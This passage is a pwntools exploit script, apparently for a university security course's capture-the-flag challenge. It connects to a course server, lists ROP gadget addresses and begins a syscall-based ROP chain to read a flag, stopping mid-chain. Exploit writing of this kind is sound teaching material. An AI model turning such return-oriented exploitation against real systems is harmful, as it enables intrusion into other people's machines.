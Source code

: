```
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 28180 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
    libc = ELF('./libc-2.23.so')
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
    libc = ELF('/lib/i386-linux-gnu/libc-2.27.so')
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
offset = cyclic_find(0x61616164)
pop_ebx = p32(0x08049022)
mov_eax_0_leave = p32(0x08049275)
eax_ecx = p32(0x080491c4)
ebx_edx = p32(0x080491cd)
eax_edx__ebx_edx = p32(0x080491cb)
inc_edx = p32(0x080491d0)
ebp_esp = p32(0x080491b7)
ecx_esp = p32(0x080491ff)
sub_ecx_4 = p32(0x080491c0)
xor_edx = p32(0x080491ba)
int_0x80 = p32(0x080491bd)

writable_region = p32(0x80491a9) #p32(0x8048388)  

p.recvuntil(b'fd: ', drop=True)
fd = p.recvline()
log.info(f"flag at fd: {int(fd)}")
p.recvline()

chain = (
    xor_edx
    + inc_edx*3
```
